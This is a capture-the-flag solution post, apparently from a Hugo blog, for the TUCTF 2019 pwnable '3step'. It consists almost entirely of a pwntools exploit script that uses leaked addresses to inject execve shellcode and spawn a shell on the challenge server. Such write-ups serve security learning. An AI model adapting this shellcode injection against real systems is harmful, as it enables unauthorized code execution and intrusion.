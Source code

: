 +++
title = "TUCTF 2019 Pwnable 3step"
subtitle = "3step"

# Add a summary to display on homepage (optional).
summary = "3step"

date = "2019-12-03T03:33:19+09:00"
publishDate = "2019-12-03T03:33:19+09:00"
expiryDate = ""

# Authors. Comma separated list, e.g. `["Bob Smith", "David Jones"]`.
authors = []

# Tags and categories
# For example, use `tags = []` for no tags, or the form `tags = ["A Tag", "Another Tag"]` for one or more tags.
tags = []
categories = []
keywords = []

# Projects (optional).
#   Associate this post with one or more of your projects.
#   Simply enter your project's folder or file name without extension.
#   E.g. `projects = ["deep-learning"]` references 
#   `content/project/deep-learning/index.md`.
#   Otherwise, set `projects = []`.
# projects = ["internal-project"]

# Featured image
# To use, add an image named `featured.jpg/png` to your page's folder. 
[image]
  # Caption (optional)
  caption = ""

  # Focal point (optional)
  # Options: Smart, Center, TopLeft, Top, TopRight, Left, Right, BottomLeft, Bottom, BottomRight
  focal_point = ""

draft = false
+++

```py
from pwn import *

def start():
    e = ELF('./3step')
    r = remote('chal.tuctf.com', 30504)

    return e, r

def info():
    r.recvuntil('0x')
    bss = int(r.recvline(), 16)
    stack = int(r.recvline(), 16)
    log.info(hex(bss) + ' bss')
    log.info(hex(stack) + ' stack')

    return bss, stack

def step1():
    r.recvuntil(': ')
    r.send('/bin/sh')

def step2():
    r.recvuntil(': ')
    r.send(shellcode)

def step3():
    r.recvuntil(': ')
    r.send(p32(stack))

if __name__ == '__main__':
    e, r = start()
    bss, stack = info()

    shellcode = '''
        mov ebx, {}
        xor ecx, ecx
        xor edx, edx
        xor eax, eax
        mov al, 0xb
        int 0x80
        mov al, 0xb
        int 0x80
    '''.format(bss)
    shellcode = asm(shellcode)

    step1()
    step2()
    step3()

    r.interactive()
```
